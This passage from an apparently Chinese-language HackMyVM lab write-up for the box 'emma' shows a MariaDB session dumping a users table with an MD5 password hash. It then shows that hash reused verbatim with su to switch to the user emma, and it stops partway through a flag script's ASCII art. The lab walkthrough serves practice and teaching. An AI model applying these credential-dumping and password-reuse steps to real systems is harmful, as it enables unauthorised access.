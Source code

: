 ```bash
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 13
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| users              |
+--------------------+
4 rows in set (0.012 sec)

MariaDB [(none)]> use users;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [users]> show tables;
+-----------------+
| Tables_in_users |
+-----------------+
| users           |
+-----------------+
1 row in set (0.000 sec)

MariaDB [users]> select * from users;
+----+------+----------------------------------+
| id | user | pass                             |
+----+------+----------------------------------+
|  1 | emma | 5f4dcc3b5aa765d61d8327deb882cf80 |
+----+------+----------------------------------+
1 row in set (0.000 sec)

```
![assets/Pasted image 20241204131238.png](/img/user/24-%E6%B8%97%E9%80%8F/HMV/assets/Pasted%20image%2020241204131238.png)
## 5. emma提权root
这里有一个坑。 这个emma的密码不是解密后的明文 就是这个Md5值
```bash
(remote) www-data@emma:/etc$ su emma
Password:  5f4dcc3b5aa765d61d8327deb882cf80
emma@emma:/etc$

emma@emma:~$ sh flag.sh

                                   .     **
                                *           *.
                                              ,*
                                                 *,
                         ,                         ,*
                      .,                              *,
                    /                                    *
                 ,*                                        *,
               /.                                            .*.
             *                                                  **
```